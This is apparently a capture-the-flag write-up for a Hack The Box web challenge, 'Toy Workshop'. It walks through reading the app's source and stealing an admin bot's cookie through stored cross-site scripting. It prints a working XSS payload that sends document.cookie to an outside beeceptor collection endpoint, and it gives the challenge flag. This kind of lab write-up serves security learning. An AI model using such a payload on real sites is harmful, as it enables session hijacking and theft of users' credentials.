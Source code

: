 # Toy Workshop (Day 1)

For this challenge, we are provided with source code for a web application as well as a docker file to test the web application locally.

I proceed to build the docker image and navigating to the website, where I was greeted with the following page:

![webpage](https://user-images.githubusercontent.com/71312079/151320134-1d568e80-3ef7-4a3d-9836-913ae953398e.png)

Clicking on one of the elves produces a prompt that **"The manager is busy right now"** and a textbox for input. Immediately I think of the possibility of XSS and send the following input:

![testxss](https://user-images.githubusercontent.com/71312079/151320121-3120681a-b100-4e97-a271-f5fed899fba3.png)

I see that my message was successfully delivered then refreshed the page. However I did not receive the alert, leading me to think that perhaps XSS isn't the way to go...

Next, I viewed the source code, zooming in to the *routes.js* file which shows the routes of the app. I see that sending the message in the text box will invoke a function *readQueries* performed by a bot:

![submit](https://user-images.githubusercontent.com/71312079/151320106-7ff80377-1d5e-40a9-a809-ab9a82178d0a.png)

I then navigate to the *readQueries* function located in */challenge/bot.js*, where I see the admin visiting */queries* to read the queries. Interestingly, I see that the flag is actually the cookie name, thus it appears that the cookie needs to be stolen in order to obtain the flag.

![botjs_readqueries](https://user-images.githubusercontent.com/71312079/151321533-a30fc3c9-8418-48c7-acba-5f7439ac2aba.png)

Navigating back to *routes.js* to see the GET request for */queries*, I see that only the localhost on 127.0.0.1 can access the cookie,. 

![get](https://user-images.githubusercontent.com/71312079/151320096-43c4d547-3f1d-47b7-a1fa-84c9be1f451b.png)

In order to obtain the cookie, we need to perform the following:
* Set up a publicly accessible website 
  * I created an endpoint called **test234** on **beeceptor**
* Craft a script to send the cookie to my endpoint
 ```html
<script> document.write('<img src="https://test234.free.beeceptor.com/collect.gif?cookie=' + document.cookie + '" />') </script>
```
* Paste the script in the text box and submit it

After performing the steps above, I waited around a minute for the admin to view the queries. Voila! The cookie was sent to my endpoint and I obtained the flag:

![beeceptor](https://user-images.githubusercontent.com/71312079/151480111-781487a7-df2f-4796-b9b9-9acf398710c4.png)


Flag: `HTB{3v1l_3lv3s_4r3_r1s1ng_up!}`
